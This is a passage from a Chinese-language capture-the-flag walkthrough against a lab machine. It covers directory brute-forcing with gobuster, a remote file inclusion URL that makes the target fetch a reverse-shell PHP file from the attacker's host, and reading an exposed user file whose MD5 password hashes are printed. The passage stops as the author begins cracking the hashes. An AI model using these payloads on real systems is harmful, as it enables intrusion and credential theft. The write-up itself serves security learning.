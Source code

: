 再调小一点：

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.37.131:8080/developmentsecretpage/  -t 5 -x html,php,txt,zip
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403232024738.png" alt="image-20240323193409792" style="zoom:50%;" />

看来确实不是通过扫描得到东西的。。。。

回头找办法的时候才发现在8080端口就暗示了可能启动了`HIDS`。

> HIDS全称是Host-based Intrusion Detection System，即基于主机型入侵检测系统。作为计算机系统的监视器和分析器，它并不作用于外部接口，而是专注于系统内部，监视系统全部或部分的动态的行为以及整个计算机系统的状态。

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403232024739.png" alt="image-20240323193755317" style="zoom:50%;" />

发现了一个登录界面！

尝试弱密码以及万能密码，发现报错了：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403232024740.png" alt="image-20240323193921472" style="zoom:50%;" />

查找一下这个报错信息：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403232024741.png" alt="image-20240323194231466" style="zoom: 33%;" />

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403232024742.png" alt="image-20240323194254823" style="zoom:50%;" />

尝试它的payload:

```bash
/[path]/slogin_lib.inc.php?slogin_path=[remote_txt_shell]
/[path]/slog_users.txt
```

```text
http://192.168.37.131:8080/developmentsecretpage/slogin_lib.inc.php?slogin_path=http://192.168.37.128:8888/reverseShell.php
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403232024743.png" alt="image-20240323194903982" style="zoom:50%;" />

第一个失败了，继续尝试。

```text
http://192.168.37.131:8080/developmentsecretpage/slog_users.txt
```

```apl
admin, 3cb1d13bb83ffff2defe8d1443d3a0eb
intern, 4a8a2b374f463b7aedbb44a066363b81
patrick, 87e6d56ce79af90dbe07d387d3d0579e
qiu, ee64497098d0926d198f54f6d5431f98
```

进行 md5 解密：
